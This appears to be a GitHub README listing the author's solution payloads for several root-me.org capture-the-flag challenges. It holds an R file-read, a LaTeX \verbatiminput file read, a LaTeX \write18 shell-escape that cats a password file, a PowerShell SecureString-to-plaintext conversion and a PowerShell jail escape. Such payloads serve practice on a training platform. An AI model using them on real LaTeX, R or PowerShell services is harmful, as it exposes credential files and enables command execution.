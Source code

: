 # root-me.org-payloads

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 
```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
The password would be prompt 
